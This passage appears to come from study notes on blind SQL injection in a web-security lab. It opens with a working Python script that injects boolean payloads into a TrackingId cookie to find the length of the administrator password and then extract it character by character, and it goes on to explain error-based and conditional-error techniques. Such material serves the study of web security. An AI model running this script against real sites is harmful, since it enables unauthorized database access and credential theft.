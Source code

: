 ```python
    global burp0_cookies
    modified_cookies = burp0_cookies.copy()
    modified_cookies["TrackingId"] += payload
    res = requests.get(burp0_url, cookies=modified_cookies)
    return "Welcome back!" in res.text

def get_password_length():
    length = 0
    while True:
        payload = f"' AND (select 'a' from users where username='administrator' and length(password)={length})='a"
        if blind_sql(payload):
            return length
        length += 1

def get_password():
    password_length = get_password_length()
    print(f"Password length: {password_length}")
    password = ""
    for i in range(password_length):
        for char in charset:
            payload = f"' AND (select 'a' from users where username='administrator' and substr(password, {i+1}, 1)='{char}')='a"
            if blind_sql(payload):
                password += char
                print(password)
                break
    return password
print(get_password())
```

## Error-based SQL injection

Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts. The possibilities depend on the configuration of the database and the types of errors you're able to trigger:

- You may be able to induce the application to return a specific error response based on the result of a boolean expression. You can exploit this in the same way as the conditional responses we looked at in the previous section. For more information, see Exploiting blind SQL injection by triggering conditional errors.
- You may be able to trigger error messages that output the data returned by the query. This effectively turns otherwise blind SQL injection vulnerabilities into visible ones. For more information, see Extracting sensitive data via verbose SQL error messages.

## Exploiting blind SQL injection by triggering conditional errors

Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique in the previous section won't work, because injecting different boolean conditions makes no difference to the application's responses.
